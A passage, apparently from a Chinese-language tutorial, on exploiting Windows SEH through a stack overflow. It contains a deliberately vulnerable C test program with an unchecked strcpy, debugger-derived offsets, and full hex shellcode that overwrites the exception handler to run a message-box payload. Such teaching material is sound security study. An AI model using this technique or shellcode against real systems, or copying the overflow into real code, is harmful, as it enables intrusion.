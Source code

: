 ### 2. 栈溢出中利用SEH

#### 2.1 获取shellcode起始地址和SEH地址

测试代码
<pre><code>
#include <windows.h>
#include <stdio.h>

char shellcode[] = "\x90\x90\x90\x90";


DWORD MyExceptionhandler(void)
{
	printf("got an exception,  press Enter to kill process!\n");
	getchar();
	ExitProcess(1);
	return 1;
}

void test(char *input)
{
	char buf[200];
	int zero = 0;
	__asm int 3;		// used to break process for debug
	__try
	{
		strcpy(buf, input);  // overrun the stack
		zero = 4/zero;		// generate an exception
	}
	__except(MyExceptionhandler()){}
}

void main()
{
	test(shellcode);
}
</code></pre>

<b>根据Ollydbg得到结论</b>

<font color=#f00>shellcode起始位置为0x0012FE48
离栈顶栈顶最近的SEH链表指针地址为0x0012FF18，其异常处理函数句柄地址为0x0012FF1C
shellcode起始地址与异常处理句柄地址之间共有212个字节间隙，也就是说，超出缓冲区8字节后的部分将覆盖SEH链的第一个SEH：由于SEH链表指针为0x90909090，所以为无效地址，系统为默认其为最终的异常处理；而而处理函数句柄内的地址是shellcode起始地址，那么就会跳转至此进行函数执行。</font>

#### 2.2 编写shellcode

<pre><code>
char shellcode[] = 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x48\xFE\x12\x00";
